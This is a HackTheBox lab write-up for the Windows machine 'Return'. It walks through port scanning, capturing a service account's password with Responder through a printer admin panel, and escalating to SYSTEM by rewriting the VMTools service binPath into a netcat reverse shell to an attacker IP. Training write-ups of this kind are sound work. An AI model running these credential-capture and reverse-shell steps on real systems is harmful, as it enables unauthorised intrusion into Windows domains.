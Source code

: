```yaml
---
title: "HackTheBox - Return"
author: Nasrallah
description: ""
date: 2023-04-15 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, responder, group]
img_path: /assets/img/hackthebox/machines/return
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Return](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

![](0.png)

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.11.108
Host is up (0.20s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-04-08 12:39:06Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 18m34s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-04-08T12:39:21
|_  start_date: N/A
```

From the open ports, it's seems like we're dealing with a windows domain controller.

## Web

Let's navigate to the web page.

![](1.png)

It's a printer admin panel, let's got to `Settings` page

![](2.png)

In this page we can make some sort of an update, we can see a hidden password.

## Burp

Let's start `Burp suite` an intercept the update request, maybe we can read the password.

![](3.png)

The password did not get sent, only the `ip`.

Here i thought that the update still must be done and a request is sent to the ip we specify in the request.

# **Foothold**

Let's test that theory by running `responder` and changing the ip value in the request from `printer.return.local` to out tun0 ip.

![](4.png)

We got the password for `printer-svc`, let's use `evil-winrm` to connect to the target.

![](5.png)

We got a shell

# **Privilege Escalation**

Let's check our groups.

```terminal
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288

```

We see that we're part of `Server Operators` group, this allow us to start and stop services.

Let's list running services with the command `services`

```terminal
*Evil-WinRM* PS C:\Users\svc-printer\Documents> services        
                                                                               
Path                                                                                                                 Privileges Service                       
----                                                                                                                 ---------- -------                       
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS                          
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796                 
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc    
```

We notice the service VMTools.

The way we're going to exploit this service is to modify the binary path to execute a command of our choice.

After we upload a copy of netcat, we can set the binpath to send us a shell using netcat. This can be done with the following command.

```terminal
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc.exe 10.10.17.90 9001 -e cmd.exe"
```

Next we stop the service and start it. with `sc.exe stop VMTools` `sc.exe start VMTools`.

![](6.png)

We got a shell as SYSTEM.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).